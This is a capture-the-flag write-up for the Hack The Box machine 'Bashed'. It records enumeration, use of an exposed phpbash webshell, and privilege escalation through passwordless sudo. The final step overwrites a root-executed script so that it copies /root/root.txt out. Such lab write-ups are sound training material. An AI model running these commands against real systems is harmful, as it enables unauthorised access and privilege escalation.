





# bashed


# Information Gathering

## Nmap

```console
root@discovery:~/htb/oscp-like/bashed# nmap -sV -sC 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-30 13:48 EST
Nmap scan report for 10.10.10.68
Host is up (0.16s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.92 seconds
```
First stop was to head to `http://10.10.10.68/` and see what I could find. Nothing was there, I got an unresponsive page error. To correct that I just needed to add the IP to my `/etc/hosts` file:

```console
root@discovery:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.68     bashed.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
and after doing so, I can go to bashed.htb and am greeted with a webpage:

 

In looking around the site, it appears to be mostly empty. There is a link to a [github repo](https://github.com/Arrexel/phpbash) for the author in which an app called **phpbash** also appears to be written by the author.  

## Dirb 

The page that showed that is called `http://bashed.htb/single.html`. I am going to run `dirb` on the domain with the common wordlist just to ensure I am not missing any low hanging fruit.

```console
root@discovery:~/htb/oscp-like/bashed# dirb http://bashed.htb/ /usr/share/wordlists/dirb/common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jan 30 14:08:07 2020
URL_BASE: http://bashed.htb/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://bashed.htb/ ----
==> DIRECTORY: http://bashed.htb/css/                                                                            
==> DIRECTORY: http://bashed.htb/dev/                                                                            
==> DIRECTORY: http://bashed.htb/fonts/                                                                          
==> DIRECTORY: http://bashed.htb/images/                                                                         
+ http://bashed.htb/index.html (CODE:200|SIZE:7743)                                                              
==> DIRECTORY: http://bashed.htb/js/                                                                             
==> DIRECTORY: http://bashed.htb/php/                                                                            
+ http://bashed.htb/server-status (CODE:403|SIZE:298)                                                            
==> DIRECTORY: http://bashed.htb/uploads/                                                                        
                                                                                                                 
---- Entering directory: http://bashed.htb/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                 
---- Entering directory: http://bashed.htb/uploads/ ----
+ http://bashed.htb/uploads/index.html (CODE:200|SIZE:14)                                                        
                                                                                                                 
-----------------
END_TIME: Thu Jan 30 14:33:26 2020
DOWNLOADED: 9224 - FOUND: 3
```

# Exploitation 

## User Flag

In my dirb scan, I saw there was a directory: `http://bashed.htb/dev/`. In exploring that directory I was able to locate two files:

 

Heading over to the `phpbash.php` file first, it looks like exactly what it said it was, a php webshell:

 

and I've got a shell as `www-data`. A good starting point I must say since its been about 5 minutes. I need to look for opportunities to privilege escalate now, to do so I am going to get [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) over to the box. I discovered I have access to `wget` but can't get it directly from the source. So I am going to host it from my machine. 

To do so, the first thing I need to do is serve it up. Python 2 used `SimpleHTTPServer.py` as a way to quickly set up a web server. The new Kali 2020.1 distro decom'd all Python2 things, so it took a few minutes but Python3 replaced that with `http.server`:

```console
root@discovery:~/htb/oscp-like/bashed# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

From there, I can use the webshell to pull the script:

 

From there, the default privileges on the file do not allow me to run it. So I will need to upgrade those:

 

For the sake of length, I won't be copying all of the linenum results here, since the output is quite long and it won't allow me to copy text, only screenshots; pretty annoying.

There is a user that is interesting: `arrexel`:
```console
[00;31m[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(arrexel) gid=1000(arrexel) groups=1000(arrexel),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

and a potential method for privesc:
```console
[00;33m[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
```

But just to do it, I was able to get to arrexel's home directory and read user.txt as `www-data`

```console
www-data@bashed
:/home/arrexel# ls -la

total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
www-data@bashed
:/home/arrexel# cat user.txt

2c281f***************47bfc1
```
## Root Flag

Further enumerating around, I noticed that `scriptmanager` owns that `script` directory in `/`:

```console
www-data@bashed
:/# ls -la

total 88
drwxr-xr-x 23 root root 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
drwxr-xr-x 2 root root 4096 Dec 4 2017 bin
drwxr-xr-x 3 root root 4096 Dec 4 2017 boot
drwxr-xr-x 19 root root 4240 Jan 30 10:48 dev
drwxr-xr-x 89 root root 4096 Dec 4 2017 etc
drwxr-xr-x 4 root root 4096 Dec 4 2017 home
lrwxrwxrwx 1 root root 32 Dec 4 2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x 19 root root 4096 Dec 4 2017 lib
drwxr-xr-x 2 root root 4096 Dec 4 2017 lib64
drwx------ 2 root root 16384 Dec 4 2017 lost+found
drwxr-xr-x 4 root root 4096 Dec 4 2017 media
drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
drwxr-xr-x 2 root root 4096 Dec 4 2017 opt
dr-xr-xr-x 110 root root 0 Jan 30 10:48 proc
drwx------ 3 root root 4096 Dec 4 2017 root
drwxr-xr-x 18 root root 520 Jan 31 06:25 run
drwxr-xr-x 2 root root 4096 Dec 4 2017 sbin
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 scripts
drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
dr-xr-xr-x 13 root root 0 Jan 30 10:48 sys
drwxrwxrwt 10 root root 4096 Jan 31 10:48 tmp
drwxr-xr-x 10 root root 4096 Dec 4 2017 usr
drwxr-xr-x 12 root root 4096 Dec 4 2017 var
lrwxrwxrwx 1 root root 29 Dec 4 2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

I tested a few ways to get a peek into that directory, and saw a `test.py` and `test.txt`:

```console
www-data@bashed
:/# ls -la scripts

ls: cannot access 'scripts/..': Permission denied
ls: cannot access 'scripts/test.py': Permission denied
ls: cannot access 'scripts/test.txt': Permission denied
ls: cannot access 'scripts/.': Permission denied
total 0
d????????? ? ? ? ? ? .
d????????? ? ? ? ? ? ..
-????????? ? ? ? ? ? test.py
-????????? ? ? ? ? ? test.txt
```

but was unable to see much about them, that was until I remembered from the linenum output, that `sudo` was allowed without a password:

```console
www-data@bashed
:/# sudo -u scriptmanager cat /scripts/test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed
:/# sudo -u scriptmanager cat /scripts/test.txt

testing 123!
```
Having to use `sudo -u scriptmanager` before all the commands is kind of annoying too. I am going to see if I can just change ownership of everything:

```console
www-data@bashed
:/# sudo -u scriptmanager chmod -R 777 /scripts

chmod: changing permissions of '/scripts/test.txt': Operation not permitted
www-data@bashed
:/# cd scripts

www-data@bashed
:/scripts# ls -la

total 16
drwxrwxrwx 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
-rwxrwxrwx 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Feb 1 17:35 test.txt
```

So looking at the script itself:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

it simply opens the file `test.txt` and  (I think whatever `w` is too, but I didn't figure that out) writes to the file whatever goes into `f.write`. This script runs as root too, so I should be able to read out or redirect the contents of `/root/root.txt` to another location where I can read it as `www-data`:

```console
www-data@bashed
:/scripts# echo import os > test.py

www-data@bashed
:/scripts# echo 'os.system("cat /root/root.txt > /tmp/root.txt")' >> test.py

www-data@bashed
:/scripts# cat test.py

import os
os.system("cat /root/root.txt > /tmp/root.txt")
```

So now I should be able to run it, and then read the root flag:

```console
www-data@bashed
:/scripts# ./test.py

./test.py: 1: ./test.py: import: not found
./test.py: 2: ./test.py: Syntax error: word unexpected (expecting ")")
www-data@bashed
:/scripts# cat /tmp/root.txt

cc4f0afe**************674a8e2
```

# Conclusion

I am going to be taking another attempt at the OSCP this year. Before I jump back into that I am going to try and hit all the OSCP-like boxes in HTB. This was the first machine on my list, it was a nice little box. I did not run into too many challenges, it was a nice box to get back into the swing of it.
